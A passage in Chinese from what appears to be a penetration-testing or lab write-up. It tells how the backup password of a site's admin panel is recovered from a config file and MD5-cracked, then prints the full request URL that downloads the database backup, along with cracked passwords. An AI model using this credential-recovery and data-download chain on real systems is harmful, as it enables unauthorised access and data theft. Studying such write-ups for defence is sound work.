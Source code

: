 于是找到下载数据库备份文件的 api ：`http://www.cocat.cc/kss_admin/admin_data.php?action=mysqldatabak_down&pwd=您设置的数据库备份密码`

4、数据库备份密码还是在之前的 `kss_inc/_config.php` 里找到的：

<img src=".\图片\Snipaste_2023-05-15_15-12-27.png" alt="Snipaste_2023-05-15_15-12-27" style="zoom:67%;" />

md5 解密后为 ：`adminadminadmin`

于是获得接口地址：

```http
http://www.cocat.cc/kss_admin/admin_data.php?action=mysqldatabak_down&pwd=adminadminadmin
```

触发即下载了数据库备份文件，用工具打开导入，并且MD5解密后为 `moon@123`

<img src=".\图片\Snipaste_2023-05-15_15-21-57.png" alt="Snipaste_2023-05-15_15-21-57" style="zoom:80%;" />
